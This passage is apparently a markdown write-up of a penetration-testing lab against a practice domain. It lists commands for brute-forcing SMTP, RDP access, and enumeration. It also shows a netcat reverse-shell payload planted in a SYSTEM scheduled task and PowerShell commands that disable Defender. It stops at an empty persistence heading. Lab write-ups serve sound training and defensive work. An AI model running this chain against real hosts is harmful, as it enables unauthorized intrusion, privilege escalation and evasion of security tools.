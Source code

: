 Scanned and enumerated particular services for vulnerabilities and valid accounts:
```
nikto -h mail.thereserve.loc # Web server vulnerability scanning

hydra -L UserNames.txt -P Password.txt mail.thereserve.loc smtp # SMTP brute-force for user enumeration
```
---
## 2. Gaining Initial Access

### 2.1 VPN and Remote Desktop Access Attempts

Attempted internal network access via VPN and Remote Desktop Protocol (RDP):
```
openvpn [user].ovpn # Connect to VPN using OVPN config

xfreerdp /u:[username] /p:[password] /v:10.200.116.11 /sec:tls /cert:ignore # RDP connection attempts
xfreerdp /u:[username] /p:[password] /v:10.200.116.21 # RDP after successful VPN connection
mstsc /v:TARGET_HOSTNAME # Native Windows RDP client
```
---
## 3. Post-Exploitation: Escalation and Enumeration

### 3.1 Enumeration and Context Mapping

Collected system information and reviewed current privileges immediately post-access:
```
whoami /priv
ipconfig
hostname
netstat -ano
tasklist
```
### 3.2 Scheduled Task Abuse for Privilege Escalation

Enumerated and hijacked scheduled tasks running as SYSTEM for privilege escalation:
```
schtasks /query /fo csv /v | findstr "SYSTEM" > tasks.csv # List all SYSTEM tasks
schtasks /query /fo list /tn FULLSYNC /v # Details of FULLSYNC scheduled task
icacls C:\SYNC\sync.bat # Check permissions on task script
c:\Users$$user]\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444 # Reverse shell payload inserted in sync.bat
.\nc.exe -lvnp 4444 # Listener on attacking machine
schtasks /run /tn FULLSYNC # Run the task manually to trigger reverse shell
```
### 3.3 AV and EDR Evasion

Used PowerShell to disable defender protections and exclude working directories:
```
Set-MpPreference -ExclusionPath "C:\Users$$user]\Downloads*"
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpComputerStatus | Select AntivirusEnabled, RealTimeProtectionEnabled
```
### 3.4 Persistence
